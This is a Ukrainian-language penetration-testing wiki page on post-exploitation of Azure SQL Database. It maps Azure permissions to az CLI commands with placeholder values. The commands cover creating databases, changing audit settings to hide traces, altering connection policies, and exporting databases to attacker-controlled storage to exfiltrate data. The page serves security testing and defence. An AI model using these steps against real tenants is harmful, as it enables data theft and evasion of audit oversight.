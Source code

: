 # Az - SQL Database Post Exploitation

{{#include ../../../banners/hacktricks-training.md}}

## SQL Database Post Exploitation

Для отримання додаткової інформації про SQL Database перегляньте:

{{#ref}}
../az-services/az-sql.md
{{#endref}}

### `Microsoft.Sql/servers/databases/read`, `Microsoft.Sql/servers/read` && `Microsoft.Sql/servers/databases/write`

З цими дозволами зловмисник може створювати та оновлювати бази даних у скомпрометованому середовищі. Ця діяльність після експлуатації може дозволити зловмиснику додавати шкідливі дані, змінювати конфігурації бази даних або вставляти бекдори для подальшої стійкості, що потенційно може порушити операції або дозволити додаткові шкідливі дії.
```bash
# Create Database
az sql db create --resource-group <resource-group> --server <server-name> --name <new-database-name>

# Update Database
az sql db update --resource-group <resource-group> --server <server-name> --name <database-name> --max-size <max-size-in-bytes>
```
### `Microsoft.Sql/servers/elasticPools/write` && `Microsoft.Sql/servers/elasticPools/read`

З цими дозволами зловмисник може створювати та оновлювати elasticPools у скомпрометованому середовищі. Ця діяльність після експлуатації може дозволити зловмиснику додавати шкідливі дані, змінювати конфігурації бази даних або вставляти бекдори для подальшої стійкості, що потенційно може порушити операції або дозволити додаткові шкідливі дії.
```bash
# Create Elastic Pool
az sql elastic-pool create \
--name <new-elastic-pool-name> \
--server <server-name> \
--resource-group <resource-group> \
--edition <edition> \
--dtu <dtu-value>

# Update Elastic Pool
az sql elastic-pool update \
--name <elastic-pool-name> \
--server <server-name> \
--resource-group <resource-group> \
--dtu <new-dtu-value> \
--tags <key=value>
```
### `Microsoft.Sql/servers/auditingSettings/read` && `Microsoft.Sql/servers/auditingSettings/write`

З цією дозволом ви можете змінювати або активувати налаштування аудиту на Azure SQL Server. Це може дозволити зловмиснику або авторизованому користувачу маніпулювати конфігураціями аудиту, потенційно приховуючи сліди або перенаправляючи журнали аудиту до місця, що знаходиться під їх контролем. Це може ускладнити моніторинг безпеки або дозволити йому відстежувати дії. ЗАУВАЖЕННЯ: Щоб активувати аудит для Azure SQL Server, використовуючи Blob Storage, ви повинні підключити обліковий запис сховища, куди можуть зберігатися журнали аудиту.
```bash
az sql server audit-policy update \
--server <server_name> \
--resource-group <resource_group_name> \
--state Enabled \
--storage-account <storage_account_name> \
--retention-days 7
```
### `Microsoft.Sql/locations/connectionPoliciesAzureAsyncOperation/read`, `Microsoft.Sql/servers/connectionPolicies/read` && `Microsoft.Sql/servers/connectionPolicies/write`

З цією дозволом ви можете змінювати політики підключення Azure SQL Server. Цю можливість можна використати для активації або зміни налаштувань підключення на рівні сервера.
```bash
az sql server connection-policy update \
--server <server_name> \
--resource-group <resource_group_name> \
--connection-type <Proxy|Redirect|Default>
```
### `Microsoft.Sql/servers/databases/export/action`

З цією дозволом ви можете експортувати базу даних з Azure SQL Server до облікового запису зберігання. Зловмисник або авторизований користувач з цим дозволом може ексфільтрувати чутливі дані з бази даних, експортувавши їх до місця, яке вони контролюють, що становить значний ризик витоку даних. Важливо знати ключ зберігання, щоб мати можливість це виконати.
```bash
az sql db export \
--server <server_name> \
--resource-group <resource_group_name> \
--name <database_name> \
--storage-uri <storage_blob_uri> \
--storage-key-type SharedAccessKey \
--admin-user <admin_username> \
--admin-password <admin_password>

```
### `Microsoft.Sql/servers/databases/import/action`

З цією дозволом ви можете імпортувати базу даних у Azure SQL Server. Зловмисник або авторизований користувач з цим дозволом може потенційно завантажити шкідливі або маніпульовані бази даних. Це може призвести до отримання контролю над чутливими даними або шляхом вбудовування шкідливих скриптів або тригерів у імпортовану базу даних. Додатково ви можете імпортувати її на свій власний сервер в Azure. Примітка: Сервер повинен дозволяти доступ служб Azure та ресурсів до сервера.
```bash
az sql db import --admin-user <admin-user> \
--admin-password <admin-password> \
--name <target-database-name> \
--server <azure-sql-server-name> \
--resource-group <resource-group-name> \
--storage-key-type SharedAccessKey \
--storage-key <storage-account-key> \
--storage-uri `https://<storage-account-name>.blob.core.windows.net/bacpac-container/MyDatabase.bacpac`
```
{{#include ../../../banners/hacktricks-training.md}}
